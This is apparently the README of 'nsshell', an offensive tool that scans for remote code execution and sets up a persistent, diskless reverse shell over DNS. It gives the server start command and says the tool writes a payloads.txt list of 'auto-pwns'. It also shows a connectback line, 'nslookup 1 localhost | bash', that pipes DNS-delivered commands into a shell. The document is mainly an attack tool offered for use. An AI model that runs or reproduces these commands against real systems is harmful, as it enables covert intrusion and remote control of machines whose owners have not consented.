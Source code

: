 <img src="https://github.com/TheRook/nsshell/blob/master/icon.png?raw=true" width="64">

Think sqlmap meets xsshunter - but looking for (blind/nonblind) RCE to get a DNS connectback shell. 

- persistent shell (even if you exit nsshell.py)
- doesn't touch disk
- resumes access when you restart nsshell.py
- nothing to install or compile for the target
- the target can use their own trusted DNS resolver - or automatically upgrade to a direct connection for speed

Start:
The tool needs to know which domain it has control over:

sudo ./nsshell.py host.com 123.123.123.112

**wrote connectback payloads to:payloads.txt**

The file above contains a list of auto-pwns. Run one of the payloads and a persistent shell will be loaded over DNS.

### install
sudo make install

### Run Server - localhost for testing
sudo python nsshell.py localhost 127.0.0.1

### Spawn Connectback shell - localhost for testing
nslookup 1 localhost | bash

That's all folks!

